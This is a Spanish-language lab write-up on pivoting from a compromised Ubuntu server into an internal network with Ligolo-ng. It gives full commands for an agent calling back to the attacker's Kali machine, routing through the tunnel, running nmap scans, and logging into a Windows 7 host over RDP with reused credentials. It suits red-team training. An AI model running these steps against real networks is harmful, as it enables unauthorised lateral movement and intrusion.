


# Pivoting hacia la red interna mediante Ligolo-ng

## Objetivo

Tras obtener acceso al servidor Ubuntu mediante la explotación del portal web y la posterior escalada de privilegios, se identificó la existencia de una segunda interfaz de red no accesible directamente desde la máquina atacante.

```bash
dev@servidor-victima:~$ hostname -I

192.168.1.216 10.10.10.10 172.17.0.1 172.18.0.1
```

La dirección `10.10.10.10` evidenciaba la presencia de una red interna adicional. Dado que esta red no era accesible directamente desde Kali, fue necesario establecer un túnel de pivoting utilizando Ligolo-ng.

---

# Arquitectura del escenario

```text
                 Red externa
        192.168.1.0/24
+------------------------------+
| Kali Linux                   |
| 192.168.1.165                |
+------------------------------+
              |
              |
              v
+------------------------------+
| Servidor Ubuntu comprometido |
| 192.168.1.216                |
| 10.10.10.10                  |
+------------------------------+
              |
              |
              v
        Red interna
          10.10.10.0/24

+------------------------------+
| DEV01 (Windows 7)            |
| 10.10.10.20                  |
+------------------------------+
```

---

# Herramienta empleada

Para realizar el pivoting se utilizó Ligolo-ng, una herramienta que permite crear túneles TCP y acceder a redes internas a través de una máquina previamente comprometida.

Se descargaron los siguientes binarios:

```text
ligolo-ng_proxy_0.8.3_linux_amd64.tar.gz
ligolo-ng_agent_0.8.3_linux_amd64.tar.gz
ligolo-ng_agent_0.8.3_windows_amd64.zip
```

En este escenario únicamente fue necesario utilizar:

- Proxy Linux → Kali.
- Agent Linux → servidor Ubuntu comprometido.

---

# Configuración del proxy en Kali

Se extrajo el paquete:

```bash
tar xvf ligolo-ng_proxy_0.8.3_linux_amd64.tar.gz
```

Posteriormente se inició el proxy generando automáticamente un certificado TLS:

```bash
sudo ./proxy -selfcert
```

La consola mostró:

```text
INFO Listening on 0.0.0.0:11601
```

quedando el proxy a la espera de conexiones.

---

# Despliegue del agente en el servidor comprometido

Desde Kali se transfirió el binario:

```bash
scp agent dev@192.168.1.216:/tmp/
```

Una vez en la máquina víctima:

```bash
chmod +x /tmp/agent
```

Se estableció la conexión con el proxy:

```bash
/tmp/agent -connect 192.168.1.165:11601 -ignore-cert
```

En Kali apareció una nueva sesión:

```text
INFO Agent joined
```

---

# Selección de la sesión

Desde la consola del proxy:

```text
ligolo-ng >
```

se listaron los agentes disponibles:

```text
session
```

Ejemplo:

```text
ID  Name
1   servidor-victima
```

Selección:

```text
session 1
```

---

# Creación de la interfaz TUN

En Kali se creó una interfaz virtual:

```bash
sudo ip tuntap add user $(whoami) mode tun ligolo
```

Activación:

```bash
sudo ip link set ligolo up
```

Comprobación:

```bash
ip a
```

Resultado:

```text
ligolo: <POINTOPOINT,MULTICAST,NOARP,UP>
```

---

# Inicio del túnel

Desde la consola de Ligolo:

```text
start
```

El túnel quedó establecido entre Kali y el servidor comprometido.

---

# Configuración del enrutamiento

Se añadió una ruta hacia la red interna:

```bash
sudo ip route add 10.10.10.0/24 dev ligolo
```

Verificación:

```bash
ip route
```

Resultado:

```text
10.10.10.0/24 dev ligolo
```

<p align="center">
  
</p>


---

# Enumeración de la red interna

Una vez establecido el túnel fue posible alcanzar los sistemas pertenecientes al segmento interno.

Descubrimiento de hosts:

```bash
nmap -sn 10.10.10.0/24
```

Resultado:

```text
10.10.10.10
10.10.10.20
```

---

# Enumeración de servicios

Se analizó el equipo Windows:

```bash
nmap -sV -Pn 10.10.10.20
```

Servicios detectados:

```text
135/tcp  msrpc
139/tcp  netbios-ssn
445/tcp  microsoft-ds
3389/tcp ms-wbt-server
```

La presencia del puerto 3389 indicaba la disponibilidad del servicio Remote Desktop Protocol (RDP).

---

# Acceso remoto mediante RDP

Durante la fase de post-explotación del servidor Ubuntu se habían recuperado credenciales reutilizadas en otros sistemas del laboratorio.

Credenciales:

```text
Usuario: dev
Contraseña: dev123
```

Con ellas fue posible acceder al equipo DEV01 utilizando FreeRDP:

```bash
xfreerdp /u:dev /p:dev123 /v:10.10.10.20 /sec:rdp
```

La conexión se realizó correctamente obteniendo acceso interactivo al sistema Windows 7.


<p align="center">
  
</p>

---

# Cadena completa de compromiso

La secuencia de ataque puede resumirse del siguiente modo:

```text
Portal web vulnerable
        ↓
RCE
        ↓
Escalada de privilegios
        ↓
Acceso SSH al servidor Ubuntu
        ↓
Identificación de una segunda interfaz
        ↓
Pivoting mediante Ligolo-ng
        ↓
Enumeración de la red 10.10.10.0/24
        ↓
Descubrimiento de DEV01
        ↓
Enumeración de servicios
        ↓
Acceso RDP
        ↓
Compromiso del sistema Windows
```

---

# Conclusiones

La segmentación de red constituye una medida fundamental para limitar el movimiento lateral. Sin embargo, cuando un atacante consigue comprometer un sistema con conectividad hacia múltiples segmentos, puede utilizar técnicas de pivoting para extender el alcance del ataque hacia redes inicialmente inaccesibles.

Ligolo-ng proporciona un mecanismo eficiente y transparente para establecer túneles a través de máquinas comprometidas, permitiendo realizar tareas de enumeración y acceso remoto sobre sistemas internos sin necesidad de exponer directamente dichos servicios al exterior.

En el laboratorio desarrollado, esta técnica permitió pasar desde el servidor Ubuntu inicialmente comprometido hasta el sistema Windows DEV01, reproduciendo una fase habitual en ejercicios de Red Team y ataques reales contra infraestructuras corporativas.